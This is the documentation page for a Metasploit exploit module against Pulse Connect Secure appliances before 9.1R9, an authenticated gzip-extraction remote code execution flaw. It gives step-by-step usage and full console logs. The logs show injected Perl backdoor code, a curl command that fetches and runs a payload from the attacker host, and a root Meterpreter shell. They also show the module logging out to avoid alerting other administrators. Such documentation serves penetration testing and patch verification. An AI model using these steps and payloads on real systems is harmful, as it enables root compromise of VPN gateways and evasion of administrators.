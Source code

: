 ## Vulnerable Application

The Pulse Connect Secure appliance before 9.1R9 suffers from an uncontrolled gzip extraction vulnerability which allows an authenticated attacker
to overwrite arbitrary files, resulting in Remote Code Execution as root. Admin credentials are required for successful exploitation.

NCC Group [wrote](https://research.nccgroup.com/2020/10/26/technical-advisory-pulse-connect-secure-rce-via-uncontrolled-gzip-extraction-cve-2020-8260/)
in their findings a few different ways to achieve RCE through the gzip vulnerability. This exploit utilizes the Template Toolkit method
which works up to 9.1R8 (possibly more), whereas the other methods were patched earlier.  With this method, since the payload is sent in the perl
template, there are also no bad characters.

Of note, MANY binaries are not in `$PATH`, but are located in `/home/bin/`.  Thanks to @wvu for pointing that out.

Pulse Secure Connect trial can be downloaded [here](https://www.pulsesecure.net/trynow/pulse-connect-secure/).

## Verification Steps

1. Install the server
1. Start msfconsole
1. Do: `use exploit/linux/http/pulse_secure_gzip_rce`
1. Do: `set rhosts [IP]`
1. Do: `set ssl true`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get a root shell

## Options

### cmd

If this option is set, a single command will be run instead of the payload. Defaults to `` (empty)

## Scenarios

### Pulse Connect Secure 9.1R8 build 7453, Meterpreter Payload

```
[*] Processing pulse.rb for ERB directives.
resource (pulse.rb)> use exploit/linux/http/pulse_secure_gzip_rce
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
resource (pulse.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (pulse.rb)> set rport 443
rport => 443
resource (pulse.rb)> set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
resource (pulse.rb)> set username pulse
username => pulse
resource (pulse.rb)> set password pulsepulse
password => pulsepulse
resource (pulse.rb)> set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
resource (pulse.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (pulse.rb)> set srvhost 1.1.1.1
srvhost => 1.1.1.1
msf6 exploit(linux/http/pulse_secure_gzip_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Exploiting...
[*] Using URL: http://1.1.1.1:8080/X8ZY2uaHuTrbj9
[*] 2.2.2.2 - Attempting login to: https://2.2.2.2:443/dana-na/auth/url_admin/login.cgi
[*] 2.2.2.2 - Finding Version
[*] 2.2.2.2 - Version 9.1, revision 8, build 7453 found
[*] 2.2.2.2 - Version is vulnerable
[*] 2.2.2.2 - Exploit trigger will be at https://2.2.2.2:443/dana-na/auth/setcookie.cgi with a header of OPUYNYOI
[*] 2.2.2.2 - curl -so /tmp/xScfkrKh http://1.1.1.1:8080/X8ZY2uaHuTrbj9;chmod +x /tmp/xScfkrKh;/tmp/xScfkrKh;rm -f /tmp/xScfkrKh
[*] 2.2.2.2 - Perl code being injected
if( length $ENV{HTTP_OPUYNYOI}){
   system("/home/bin/curl -so /tmp/xScfkrKh http://1.1.1.1:8080/X8ZY2uaHuTrbj9");
   chmod 0777, "/tmp/xScfkrKh";
   system("env /tmp/xScfkrKh");
}
[*] 2.2.2.2 - Encrypting config with exploit backdoor
[*] 2.2.2.2 -     [*] Key: 7e95421a6b886641431b32c52442e2e483f81f58b0e9e9a5
[*] 2.2.2.2 -     [*] IV: df14482b2b3f9e24
[*] 2.2.2.2 -     [+] Encrypted header: 8ae8e163
[*] 2.2.2.2 -     [*] Digest: 5e457443190f0015e0949bdd19bbae0d
[*] 2.2.2.2 -     [*] Hash: cb269d28ab81904636fac81d57ecdd37
[*] 2.2.2.2 - Requesting backup config page
[*] 2.2.2.2 - Uploading encrypted config backup
[*] 2.2.2.2 - Triggering RCE
[*] Client 2.2.2.2 (curl/7.19.7 (i686-redhat-linux-gnu) libcurl/7.63.0 OpenSSL/1.0.2n zlib/1.2.3) requested /X8ZY2uaHuTrbj9
[*] Sending payload to 2.2.2.2 (curl/7.19.7 (i686-redhat-linux-gnu) libcurl/7.63.0 OpenSSL/1.0.2n zlib/1.2.3)
[*] Sending stage (976712 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:30418) at 2020-11-08 22:15:58 -0500
[*] 2.2.2.2 - Request timed out, most likely due to obtaining a session!
[*] 2.2.2.2 - Logging out to prevent warnings to other admins
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: root @ localhost2 (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 2.2.2.2
OS           :  (Linux 2.6.32-00025-g841d072-dirty)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

### Pulse Connect Secure 9.1R8 build 7453, cmd Execution

```
msf6 exploit(linux/http/pulse_secure_gzip_rce) > set cmd 'uname -a'
cmd => uname -a
msf6 exploit(linux/http/pulse_secure_gzip_rce) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Exploiting...
[*] Using URL: http://1.1.1.1:8080/9fy9OzRRf7zJo4c
[*] 2.2.2.2 - Attempting login to: https://2.2.2.2:443/dana-na/auth/url_admin/login.cgi
[*] 2.2.2.2 - Finding Version
[*] 2.2.2.2 - Version 9.1, revision 8, build 7453 found
[*] 2.2.2.2 - Version is vulnerable
[*] 2.2.2.2 - Exploit trigger will be at https://2.2.2.2:443/dana-na/auth/setcookie.cgi with a header of YHAVWSXI
[*] 2.2.2.2 - Perl code being injected
if( length $ENV{HTTP_YHAVWSXI}){
   system("uname -a");
}
[*] 2.2.2.2 - Encrypting config with exploit backdoor
[*] 2.2.2.2 -     [*] Key: 7e95421a6b886641431b32c52442e2e483f81f58b0e9e9a5
[*] 2.2.2.2 -     [*] IV: ab94ad78a3897ab8
[*] 2.2.2.2 -     [+] Encrypted header: 37fffeb3
[*] 2.2.2.2 -     [*] Digest: 42a0340dfb408186f7d3ce177218fa18
[*] 2.2.2.2 -     [*] Hash: 6ad4c2b6b800c4c9db1e2c345d4a9e8c
[*] 2.2.2.2 - Requesting backup config page
[*] 2.2.2.2 - Uploading encrypted config backup
[*] 2.2.2.2 - Triggering RCE
[*] 2.2.2.2 - Command Output: 
Linux localhost2 2.6.32-00025-g841d072-dirty #1 SMP Mon Jul 20 17:51:26 EDT 2020 x86_64 x86_64 x86_64 GNU/Linux

[*] 2.2.2.2 - Logging out to prevent warnings to other admins
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Server stopped.
[*] Exploit completed, but no session was created.
```
